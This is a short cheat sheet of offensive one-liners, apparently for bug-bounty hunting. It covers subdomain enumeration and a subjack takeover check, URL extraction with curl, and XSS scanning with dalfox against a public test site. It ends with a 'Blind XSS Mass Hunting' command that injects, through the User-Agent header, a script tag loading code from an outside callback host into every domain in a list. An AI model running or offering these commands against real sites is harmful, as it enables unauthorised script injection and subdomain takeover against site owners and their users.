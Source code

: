 
## OneLiner
```
subfinder -d HOST >> FILE; assetfinder --subs-only HOST >> FILE; amass enum -norecursive -noalts -d HOST >> FILE; subjack -w FILE -t 100 -timeout 30 -ssl -c $GOPATH/src/github.com/cybertix/subjack/fingerprints.json -v 3 >> takeover ;
```

────────────────────────────────────────────────────────────────────────



# Extract URLs from Source Code

## OneLiner
```
curl "https://TARGET.Com" | grep -oP '(https*.//|www\.)[^]*'
```


────────────────────────────────────────────────────────────────────────



# XSS (Cross-Site Scripting)

## Installation Requirements
1. Katana       : https://github.com/projectdiscovery/katana
2. Dalfox       : https://github.com/hahwul/dalfox
3. Waybackurls  : https://github.com/tomnomnom/waybackurls
4. GF           : https://github.com/tomnomnom/gf
5. Dalfox       : https://github.com/hahwul/dalfox
6. HTTPX      : https://github.com/projectdiscovery/httpx


## OneLiner
```
echo http://testphp.vulnweb.com | katana -jc -f qurl -d 5 -c 50 -kf robotstxt,sitemapxml -silent | dalfox pipe --skip-bav
```

```
waybackurls http://testphp.vulnweb.com | gf xss | sed 's/=.*/=/' | sort -u | tee XSS.txt && cat XSS.txt | dalfox -b http://chirag.bxss.in pipe > output.txt
```

### Blind XSS Mass Hunting

```
cat domain.txt | waybackurls | httpx -H "User-Agent: \"><script src=https://chirag.bxss.in></script>"
```
────────────────────────────────────────────────────────────────────────
